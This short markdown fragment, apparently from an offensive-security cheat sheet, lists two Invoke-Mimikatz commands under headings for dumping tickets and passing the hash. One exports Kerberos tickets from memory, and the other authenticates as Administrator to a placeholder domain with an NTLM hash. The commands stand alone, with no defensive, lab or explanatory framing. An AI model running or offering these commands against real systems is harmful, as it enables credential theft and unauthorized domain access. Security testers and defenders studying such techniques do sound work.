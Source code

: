 ## Mimikatz dump tickets


```
Invoke-Mimikatz -Command '"sekurlsa::ticket /export"'
```

## Mimikatz pass the hashes

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:some.domain.local /ntlm:brydaafdsafd3524frw4fe4f"'
```
